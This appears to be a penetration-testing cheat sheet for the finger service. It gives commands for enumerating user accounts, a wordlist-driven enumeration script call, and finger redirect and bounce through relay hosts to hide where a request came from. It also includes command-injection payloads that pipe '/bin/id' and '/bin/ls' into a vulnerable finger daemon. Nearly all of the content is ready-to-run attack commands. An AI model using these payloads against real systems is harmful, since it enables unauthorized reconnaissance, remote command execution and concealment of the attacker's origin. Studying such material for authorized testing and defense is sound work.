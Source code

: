 ## User enumeration
```
finger @example.com
finger 'a b c d e f g h' @example.com
finger '1 2 3 4 5 6 7 8 9 0'@target_host
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
```

[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)
```
finger-user-enum.pl -U seclists/Usernames/Names/names.txt -t <ip>
```

## Finger Redirect

```
finger @target_host1@target_host2
```

## Command execution
```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

Hop from one finger deamon to another. Request will get logged as if it arrived from a relay.

```
finger@host.com@victim.com
```

## References

### Summarized References
- Giving the Finger to port 79 / Simple Finger Deamon Tutorial by Paris2K: http://cd.textfiles.com/hmatrix/Tutorials/hTut_0269.html
- http://0daysecurity.com/penetration-testing/enumeration.html
